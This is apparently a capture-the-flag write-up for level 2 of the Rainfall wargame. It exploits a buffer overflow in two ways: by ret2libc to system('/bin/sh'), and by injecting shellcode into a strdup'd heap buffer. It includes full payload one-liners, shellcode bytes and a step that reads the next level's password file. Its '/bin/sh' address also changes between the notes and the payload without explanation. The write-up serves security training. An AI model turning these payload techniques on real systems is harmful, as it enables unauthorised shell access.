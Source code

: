 # Level 2

We found two methods here :

## Methode 1: ret2Libc

First, we have to check if there is an overflow and where.

```sh
$ python ../tools/pattern.py 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Let's start GDB and launch our program with this pattern

```sh
$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level2/level2 <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

The program crash with 0x37634136 in final value, it's out point of entry. Now we can find the size of the buffer crashing the program.

```sh
$ python pattern.py --crash 37634136
Buffer crashed at size: 80
```

We have our offset, let's try to do a ret2libc exploit. It consists in adding a function call of libc at the end of the EIP register.
We are going to call system() with /bin/sh as argument let’s find those addresses with GDB.
We also need exit() to leave properly and the return address of the main.

```sh
$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) disass
Dump of assembler code for function main:
   0x0804853f <+0>:		push   %ebp
   0x08048540 <+1>:		mov    %esp,%ebp
=> 0x08048542 <+3>:		and    $0xfffffff0,%esp
   0x08048545 <+6>:		call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
```

We also have to find a string containing "/bin/sh", for this we will be helped by the environment:

```sh
$ export HACK=/bin/sh
$ /tmp/genv HACK ./level2
HACK will be at 0xbffff91d
```

A little resume of the situation:

```
offset:           80
ret address:      0x0804854b
system address:   0xb7e6b060
exit address:     0xb7e5ebe0
/bin/sh address:  0xbffff91d
```

Now, it's time for the exploit :D<br>
`[ OFFSET ] [ RETURN ADDRESS ] [ SYSTEM ADDRESS ] [ EXIT ADDRESS ] [ ARGS ADDRESS ]`

```sh
$ (python -c 'print("A" * 80 + "\x4b\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7")'; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKAAAAAAAAAAAAK`�����X���
whoami
level3
cat /home/user/level3/.pass
```

Sources:<br>
[0xRick's Blog](https://0xrick.github.io/binary-exploitation/bof6/)<br>
[hackndo](https://beta.hackndo.com/retour-a-la-libc/)<br>
[CTF101](https://ctf101.org/binary-exploitation/buffer-overflow/)<br>
[0x0ff.info](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-2/)<br>

## method 2: exec a shellcode stored in the malloced buffer

### shellcode executing system(/bin//sh):

\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

```sh
$ ndisasm -b32 shellcode
00000000  31C0              xor eax,eax
00000002  99                cdq                       # set edx at 0
00000003  50                push eax
00000004  682F2F7368        push dword 0x68732f2f
00000009  682F62696E        push dword 0x6e69622f
0000000E  89E3              mov ebx,esp
00000010  50                push eax
00000011  53                push ebx
00000012  89E1              mov ecx,esp
00000014  B00B              mov al,0xb
00000016  CD80              int 0x80
```

### offset is 80:

```sh
gdb ./level2
(gdb) r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

0x37634136 => 80
(https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)

### in rainfall we get the address of the malloced string:

```sh
$ ltrace ./level2 <<< coucou
strdup("coucou")  = 0x0804a008
```

### the hack:

```sh
$ (python -c 'print("\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x41" * 56 + "\x08\xa0\x04\x08")';cat) | ./level2
```
